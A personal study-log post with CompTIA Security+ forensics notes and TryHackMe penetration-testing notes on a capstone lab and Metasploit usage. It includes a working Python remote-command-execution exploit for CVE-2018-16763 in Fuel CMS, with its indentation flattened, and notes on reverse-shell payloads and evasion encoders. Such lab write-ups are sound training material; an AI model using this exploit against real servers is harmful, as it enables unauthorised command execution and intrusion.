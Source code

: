 ```yaml
---
title: 'ITPro.TV: CompTIA Security+ (SY0-601) &amp; TryHackMe: Jr. Penetration Tester'
date: 2022-04-13 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-04-13-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.html
author: 100007
---
```


# ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester

**author:** Nathan Acks  
**date:** 2022-04-13

# ITPro.TV: CompTIA Security+ (SY0-601)

## Digital Forensics Concepts

Order of volatility:

- CPU cache & registers (good luck!)
- Routing tables, process tables, ARP cache, kernel stats
- (Non-Kernel) RAM
- Swap, /tmp, etc.
- Storage, VM snapshots
- Archival data, backups, logs, print-outs

Preservation and documentation notes:

- Timestamp everything
- Note timezone differences
- Written reports and logs (also use these to establish the chain of custody)
- Witness testimony
- Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

- FTK Imager
- WinHex
- Autopsy
- EnCase Forensic
- `dd`

# TryHackMe: Jr. Penetration Tester

## Vulnerability Capstone

I couldn’t get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error
delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'
def exploit():
while True:
try:
payload = input("
[+] OS Command: ")
response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
htmlText = str(BeautifulSoup(response.text,'html.parser'))
array1 = htmlText.split(delimeter1)
array2 = array1[1].split(delimeter2)
print('
' + array2[-1].replace('
',''))
except error:
exit('
[-] Could Not Connect To Server')
if __name__ == ' __main__':
mainArguments = argparse.ArgumentParser()
mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
args = mainArguments.parse_args()
try:
exploit()
except KeyboardInterrupt:
exit('
[!] Quitting')
```

- [THM-Vulnerability\_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
- [THM-Vulnerability\_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
- [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
- [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

## Main Components of Metasploit

Module categories:

- Auxiliary (odds-n-ends)
- Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
- Evasion (attempt to directly evade anti-malware solutions)
- Exploits
- NOPS (no-op code that can be used to pad exploits to a needed size)
- Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
- Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

- Singles (self-contained; also indicated by the use of an `_` separating “shell” from the rest of the payload name, as in `shell_reverse_tcp`)
- Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
- Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating “shell” from the rest of the payload name, as in `shell/reverse_tcp`)

## Msfconsole

You can use msfconsole as a shell, but there’s no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as “help”, though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

## Working with Modules

The common `RHOSTS` module option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

- `set -g` = `setg`
- `unset -g` = `unsetg`
- `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many _don’t_ have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.


